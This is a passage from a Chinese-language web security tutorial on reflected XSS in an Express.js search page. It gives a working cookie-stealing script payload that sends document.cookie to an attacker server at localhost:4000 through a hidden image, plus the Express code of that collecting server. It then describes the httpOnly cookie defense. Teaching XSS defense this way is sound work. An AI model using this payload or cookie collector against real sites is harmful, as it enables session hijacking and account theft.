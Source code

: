 ```
});
app.listen(3000);
```

服务器返回一个搜索结果页面，**直接将用户的搜索关键词放到页面中显示**。可以看到**服务器返回的页面并没有使用innerHTML和innerText修改DOM的值**。

```
// 黑客服务器代码
const express = require("express");
const app = express();
const cookies = [];
app.use("/cookie", (req, res)  => {
    console.log(req.query.cookie);
    if (req.query.cookie) {
        cookies.push(req.query.cookie);
    }
    res.send(`
        <h1>盗取的用户cookie:</h1>
        ${cookies}
    `);
});
app.listen(4000);
```

① 现在用户在浏览器中输入[http://localhost](https://link.segmentfault.com/?enc=L6mOE07X0un7PkRC%2BGAt7A%3D%3D.sF%2BGhEsq57yp9EKuBQuwChqR5kZJMuduIR11aSwszWY%3D):3000/就能访问到搜索页面，并且会产生一个sessionId放到cookie中(**模拟用户已登录**)。

② 当用户在搜索框中输入**<script>document.write('<img width=0 height=0 src="http://localhost:4000/cookie?cookie=' + document.cookie + '"/>')</script>**
黑客注入的脚本就是往搜索结果页面中添加一个宽度和高度都为0的图片，图片加载的时候就会向**黑客的服务器http://localhost:4000/cookie**发起请求，并将被攻击者的cookie发送给了黑客服务器。

③ 点击搜索按钮进入搜索结果页面，如:
![屏幕快照 2020-06-27 下午12.22.00.png](https://segmentfault.com/img/bVbIMY2)

④ 此时黑客访问http://localhost:4000/cookie页面就可以看到盗取的用户cookie，如:
![屏幕快照 2020-06-27 下午12.23.45.png](https://segmentfault.com/img/bVbIMY5)

## 五、XSS防御

**① 将用于登录相关的cookie设置为httpOnly，避免被客户端脚本直接读取。**
对于上面提到的实例，注入的脚本会通过**document.cookie**读取我们登录用的cookie，所以我们需要**将登录的cookie设置成httpOnly**即可，如:

```
app.use(session({
    secret: 'keyboard cat', // 必须设置密钥字符串
    resave: false, // 每次请求都重新设置session cookie的过期时间
    saveUninitialized: true, // 用户访问服务器后是否保存还未初始化的session，即是否立即生成session
    name: "BDUSS", // sessionId的名称
    cookie: {
        httpOnly: true // 禁止客户端通过js获取session对应的cookie
    }
}));
```

